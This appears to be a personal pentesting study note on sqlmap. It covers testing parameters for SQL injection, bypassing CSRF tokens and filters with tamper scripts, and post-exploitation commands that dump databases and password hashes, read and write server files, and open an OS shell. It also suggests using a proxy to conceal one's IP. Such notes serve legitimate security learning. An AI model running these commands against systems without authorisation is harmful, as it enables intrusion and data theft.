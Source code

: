 
### General Notes

> Automated tool to test for [[SQL Injections]].
> Gets information about the Database and system being used.

> Data is saved in `/usr/share/sqlmap/output/sqlmap.test` for each url used.
> Can use `--flush-session` to reset this data.

SQLmap performs automatic hash decryption using dictionary methods when it stumbles upon any value that resembles a hash format.

---
### Finding Injections

To properly obtain the URL as well as all the [[HTTP]] headers and [[Cookies]], we can copy the request from the network tab as [[cURL]]. It has the exact same format as SQLmap.

* To test a query parameter (`GET` [[HTTP]] parameter) :
```bash
sqlmap -u "/url?param=1&param2=2" --batch
sqlmap -u "/url?param=1&param2=2" -p param2
```
> The parameter we want to test should be placed in the url, `param` in this case.
> `--batch` means don't ask for any user input and continue with default values.
> `-p` specifies which parameter we want to test.

* To test for `POST` requests:
```bash
sqlmap -u "/url" --data "param1=a"
sqlmap -u "/url" --data "data1=a*&data2=b"
sqlmap -u "/url" --data "data1=a&data2=b" -p data1
```
> Pass the parameters in the body using `--data`.
> If we know which parameter exactly we want to test, we can use the `*`, or the `-p` flag. 

* To run against a request saved in a text file:
```bash
sqlmap -r req.txt
```
> The `-r` flag specifies the path to the request file. We can use `*` inside the file to specify which parameter we want to test.
> This request file can be obtained from [[Burp Suite]] proxy.

#### Useful Flags

* To add a prefix and/or suffix to enclose all vectors being sent:
```bash
sqlmap -u "/url" --suffix="-- -" --prefix="' "
```
> This adds `' ` before all payloads and a `-- -` after all payloads.

* Send from random agents, instead of the sqlmap user agent:
```bash
--random-agent
```

* Imitate sending from a mobile phone:
```bash
--mobile
```

* Send using a specific [[HTTP#HTTP Verbs]]:
```bash
--method <VERB>
```

* Add an [[HTTP#HTTP Headers]]:
```bash
-H '<HEADER:VALUE>'
-A
--cookie 'name=value'
```
> Normal headers, user agent header, or [[Cookies]].
> They can all be specified using `-H` as well.

Adding the `*` in any of the above headers also tests for [[SQL Injections]] in them.

* Setting `level` and `risk` flags:
```bash
--level=5
--risk=3
```
> These are the maximum values, with both defaults at 1.
> Increasing these values tests more payloads, is slower, and can damage the database.

* Specify the number of columns in the table for `UNION` injection:
```bash
--union-cols=<num>
```

* Instead of `NULL` and random integer while testing for columns: 
```bash
--union-char='a'
```

* Specify the `FROM` table while doing `UNION` injection
```bash
--union-from=<table-name>
```

---

### Bypassing Web Application Protections

##### Bypassing Anti-[[CSRF]]  

> To bypass this defense that makes it hard for automated tools to attack websites, the `--csrf-token` flag is passed. 

SQLmap tries to parse the target response and obtain a new token so that it can be used in the next request. Even if `--csrf-token` flag isn't present but one of the parameters or data being passed has a CSRF token, SQLmap will prompt the user to update this token for the remaining requests.

##### Bypassing Unique Value Requirements

> Some parameters need unique values in parameters. To achieve this so that each request sent has a different value for the parameter, the `--randomize` flag is used with the name of the parameter that should be randomized.

```bash
sqlmap -u "/url?param1=13" --randomize=param1
```

##### Calculated Parameters

> Some parameters that get passed are a result of some modification or calculation. Thi can be achieved by using the `--eval` flag and writing python code that calculates this parameter.

```bash
sqlmap -u "/url?p1=1&p2=2" --eval="p2=p1+1" 
```

Here the value of p2 is replaced by the calculation of p1 + 1. This can be used to hash parameters as well.   

#### Using Tamper Scripts

These can be used to tamper with the requests to bypass some defense mechanisms. These can be listed using the `--list-tampers` flag.

```bash
--tamper=<name1>,<name2>
```
> using scripts.

---
### Post Exploitation

* Database enumeration:
```bash
--banner # gets the banner of the database.
--hostname # the hostname of the target.
--dbs # gets the databases.
--schema #structure of all tables in the databases.

--current-user # gets the current user.
--users # gets the current user in the db.
--is-dba # check if the current user is the database admin.
--passwords # prints the password hashes for the database users.

--dump -D <db-name> #prints everything there is in the database.
--dump-all #prints everything from all databases.
```

* Table enumeration after choosing a database:
```bash
-D <db-name> --tables #lists the tables in the database db-name.

-D <db-name> -T <table-name> --dump #prints everything in that table.
-D <db-name> -T <table-name> --columns #lists the columns in the table.

-D <db-name> -T <table-name> -C column-name,column-name --dump #gets the info of the columns
-D <db-name> -T <table-name> -C column-name,column-name --dump --start=2 --stop=4 #gets only columns in these rows.
```

* Searching for data:
```bash
-D <db-name> -T <table-name> -C column-name,column-name --dump --where="where clause without WHERE keyword" #get the rows only that meet certain conditions.

--search -T user #searches for tables containing the user keyword.
--search -C pass #searches for columns containing the pass keyword.
```
> For the `WHERE` clause example: `--where="username like '%mins%'"`

* Reading from files:
```bash
--file-read "/path/to/file"
```
> The file is then saved to a local file on the machine.

* Writing to files:
```bash
--file-write "/path/to/file/to/send" --file-dest "/where/to/save"
```

* To get a reverse shell:
```bash
--os-shell
```


---

### Test for Errors

* To display any database errors from the responses:
```bash
--parse-errors
```

* To store all the output to a file:
```bash
-t /path/to/file
```

* To be verbose and print everything:
```bash
-v 6
-v 3
```
> For verbosity of 3, it shows the payload that can be used in the browser.

* Use a proxy to redirect traffic:
```bash
--proxy "http://127.0.0.1:80"
```
> This uses [[Burp Suite]] as proxy.
> Can be used to conceal [[IP]] address. This can bypass some blocks.

---
